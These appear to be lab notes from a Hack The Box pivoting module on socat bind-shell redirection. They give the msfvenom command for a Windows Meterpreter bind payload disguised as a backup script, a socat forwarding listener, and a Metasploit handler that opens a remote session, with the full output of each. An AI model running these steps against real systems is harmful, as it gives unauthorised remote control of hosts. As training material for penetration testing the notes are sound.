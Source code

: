 Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. 
* This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. 
* In the case of bind shells, the Windows server will start a listener and bind to a particular port. 
* We can create a bind shell payload for Windows and execute it on the Windows host. 
* At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. 
* The below figure should explain the pivot in a much better way.
![[Pasted image 20250305204110.png]]
We can create a bind shell using msfvenom with the below command.

#### Creating the Windows Payload

Socat Redirection with a Bind Shell

```shell-session
canklesmaks@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```


We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

#### Starting Socat Bind Shell Listener

Socat Redirection with a Bind Shell

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

#### Configuring & Starting the Bind multi/handler

Socat Redirection with a Bind Shell

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

#### Establishing Meterpreter Session

Socat Redirection with a Bind Shell

```shell-session
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```